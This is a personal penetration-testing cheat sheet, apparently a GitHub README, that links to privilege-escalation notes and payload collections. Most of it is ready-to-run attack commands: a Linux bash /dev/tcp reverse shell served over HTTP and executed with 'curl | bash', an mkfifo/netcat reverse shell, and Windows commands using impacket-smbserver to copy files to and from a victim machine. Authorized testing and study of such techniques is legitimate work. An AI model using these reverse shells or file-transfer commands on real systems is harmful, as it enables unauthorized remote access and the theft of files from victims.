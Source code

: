 # Cheat Sheet
Here are some commands, reverse shells, and small scripts that I keep for pen-testing.

## Quick Links
[Linux Privilege Escalation](LinuxPrivEsc/README.md)
[Windows Privilege Escalation](WindowsPrivEsc/README.md)
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
[Web Penetration Testing Checklist](https://github.com/swisskyrepo/PayloadsAllTheThings)


## Reverse Shell
Alternate ways to gain shells.

### Linux
Using cURL
```bash
echo 'bash -i >& /dev/tcp/10.10.10.10/1337 0>&1' > rev.sh
python3 -m http.server 8080
nc -lnvp 1337
curl http://10.10.10.10:8080/rev.sh | bash
```
Probably the least-special-characters way (and with sh):
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1337 > /tmp/f
```

### Windows
Using impacket-smbserver we can copy files to and from the victim machine. Start the impacket-smbserver:
On Kali machine:
```bash
impacket-smbserver leet .
```
To copy files from Kali to Windows:
```cmd
> copy \\<Kali IP>\leet\file.ext file.ext
```

To copy files from Windows to Kali:
```cmd
> copy file.ext \\<Kali IP>\leet\file.ext
```